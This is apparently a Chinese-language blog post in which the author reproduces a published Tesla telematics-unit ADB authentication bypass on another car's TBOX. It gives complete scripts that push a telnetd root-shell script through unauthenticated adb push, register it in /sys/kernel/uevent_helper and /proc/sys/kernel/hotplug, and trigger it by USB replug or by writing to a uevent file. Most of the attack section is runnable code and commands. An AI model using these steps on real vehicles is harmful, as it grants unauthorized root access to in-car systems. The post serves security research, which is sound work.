






车联网安全实践之Tesla TCU ADB 认证绕过“复现”
车联网安全实践之Tesla TCU ADB 认证绕过“复现”
在准备今年的“车联网安全年度大事件汇总”，发现遗漏一些事件，其中就包括“Tesla TCU ADB 认证绕过”。Technical Advisory: Tesla Telematics Control Unit - ADB Auth Bypass 刚发布的时间简单看了一下，没有验证过。虽然之前也有绕过（文件覆盖、算法逆向）不少TBOX 的 ADB SHELL 访问控制，但是使用USB热插拔实现任意代码执行的却还是第一次见。手头没有Tesla 的TCU，但是刚好有其他相似情况的其他车的TBOX。趁着这个机会动手试试。
原理
在TCU/TBOX中，禁用或限制了 adb shell，但允许 adb push/pull。 adb pull/push 用于上传和下载文件。一般直接覆盖掉自启文件加入后门就能拿到 shell，但很多TBOX中大部分分区挂载为只读，覆盖文件获取shell就比较麻烦了。需要找到可写的文件，但不一定有。滥用 uevent_helper/hotplug sysfs kernel subsystems 执行任意命令,开启 telnet 服务,获取 root shell。在 /sys/kernel/uevent_helper、/proc/sys/kernel/hotplug 写入 shell 脚本的路径，触发 uevent 事件，将自动调用 shell 脚本执行。
状态验证
连接TBOX 的 Mirco-USB后，识别到了 ADB 设备，进入 adb shell 需要输入密码。

和 TESLA TCU 一样，adb pull/push 依然能够在未授权的状态下使用。

可以看出，虽然ECU不同，但是有相同的表现。可以利用相同的利用方法获取 shell。
复现
使用原脚本复现，失败
在 TBOX 上开启 telnet 的脚本 telnetd.sh
1
2
3
touch /tmp/executed
telnetd -l /bin/bash -p 2727准备利用脚本 exploit.sh
1
2
3
4
5
6
7
8
9
10
11
12
13
14chmod +x telnetd.sh
adb push telnetd.sh /tmp/telnetd.sh
# Write "/tmp/telnetd.sh" to uevent_helper and hotplug
echo '/tmp/telnetd.sh' > t2.sh
adb push t2.sh /sys/kernel/uevent_helper
adb push t2.sh /proc/sys/kernel/hotplug
# Trigger a uevent just by doing a file system read
adb pull /etc/passwd
# Setup the TCP port forward for port 2727
adb forward tcp:2727 tcp:2727
# Wait for telnetd to run
sleep 3
# Connect to the telnet shell
telnet 127.0.0.1 2727exploit
直接运行，利用失败。

异常分析
检查发现，文件都写入成功了。
1 | / # cat /sys/kernel/uevent_helper |
唯一的问题是，没有触发成功。Tesla TCU 采用读取文件方式触发——Trigger a uevent just by doing a file system read。
现在来展开分析一下利用脚本。
/sys/kernel/uevent_helper是一个 sysfs 虚拟文件，用于配置 Linux 内核的 uevent helper 程序路径。该机制属于早期的用户态事件处理方式：当内核检测到设备相关事件（如设备添加、移除、状态变化等 uevent）时，会直接执行该路径所指定的用户空间程序，并通过环境变量传递事件信息，以完成相应的用户态处理逻辑。/proc/sys/kernel/hotplug是一个 procfs 虚拟文件，用于指定内核的 hotplug helper 程序路径。在设备配置发生变化（例如 USB 设备插入或移除）时，内核会调用该用户空间程序以执行相应的热插拔处理操作。Linux 内核 Kconfig 中对UEVENT_HELPER的定义。
config UEVENT_HELPER
bool "Support for uevent helper" help The uevent helper program is forked by the kernel for every uevent. Before the switch to the netlink-based uevent source, this was used to hook hotplug scripts into kernel device events. It usually pointed to a shell script at /sbin/hotplug. This should not be used today, because usual systems create many events at bootup or device discovery in a very short time frame. One forked process per event can create so many processes that it creates a high system load, or on smaller systems it is known to create out-of-memory situations during bootup.config UEVENT_HELPER_PATH
string "path to uevent helper" depends on UEVENT_HELPER default "" help To disable user space helper program execution at by default specify an empty string here. This setting can still be altered via /proc/sys/kernel/hotplug or via /sys/kernel/uevent_helper later at runtime.
UEVENT_HELPER 是 Linux 内核中用于在 uevent 发生时内核直接 fork 执行用户空间程序。该机制因严重的性能和稳定性问题已被弃用，并由 netlink-based uevent（udev/ueventd）取代默认配置通常将其禁用（不少嵌入式Linux仍支持），但在运行时可通过 /sys/kernel/uevent_helper 或 /proc/sys/kernel/hotplug 启用。
Uevent是Linux内核设备模型中的一个机制，属于Kobject子系统，用于在Kobject状态发生变化时（如添加、移除、上线、下线或更改）向用户空间发送事件通知。Uevent的核心功能是支持热插拔设备管理，例如当U盘插入时，内核驱动会动态创建设备结构并触发uevent，通知用户空间程序自动创建/dev设备节点或挂载设备。
搞清原理后，需要想办法触发 uevent 事件。触发 uevent 事件可以通过以下两种方法。
重新插拔USB 线
手动触发, 写
uevent文件。如echo add > /sys/class/net/lo/uevent。1
2
3echo add > /sys/class/<subsystem>/<device>/uevent
echo remove > /sys/class/<subsystem>/<device>/uevent
echo change > /sys/class/<subsystem>/<device>/uevent
原文给出的读取文件adb pull /etc/passwd，无法触发。uevent 只能由 内核设备事件或 sysfs uevent 写入 触发。出清楚为什么 Alex Plaskett, McCaulay Hudson 为什么触发成功。
再次复现，成功获取到 root shell
利用USB插拔和修改uevenet文件两种方式触发uevenet事件，执行 telnetd.sh, 获取 shell。
方式一： 插拔USB 触发
在 telnetd.sh 中，将 /bin/bash 修改为 /bin/sh；把 exploit.sh 拆分成了2部分。
1 | ┌──(root💀kali)-[~] |
执行 exploit.sh 后，插拔 USB，链接 telnet 获取到 root shell。

方式二： 修改 uevent 文件触发
在 telnetd.sh 中，将 /bin/bash 修改为 /bin/sh ；把 exploit.sh 中触发uevent脚本修改为echo add > /sys/class/net/lo/uevent。
1 | ┌──(root💀kali)-[~] |
执行脚本后，成功获取到 root shell。

需要注意的点
执行的前提是adb的权限是 root。如果是其他用户,写入文件
/proc/sys/kernel/hotplug、/sys/kernel/uevent_helper会失败。1
2
3
4/ # ls -la /proc/sys/kernel/hotplug
-rw-r--r-- 1 root root 0 Dec 27 2025 /proc/sys/kernel/hotplug
/ # ls -la /sys/kernel/uevent_helper
-rw-r--r-- 1 root root 0 Dec 27 2025 /sys/kernel/uevent_helper直接用原有的 telnetd.sh 可能会失败，有些TBOX中没有 /bin/bash,可以用 /bin/sh 代替。
1
2
3
touch /tmp/executed
telnetd -l /bin/sh -p 2727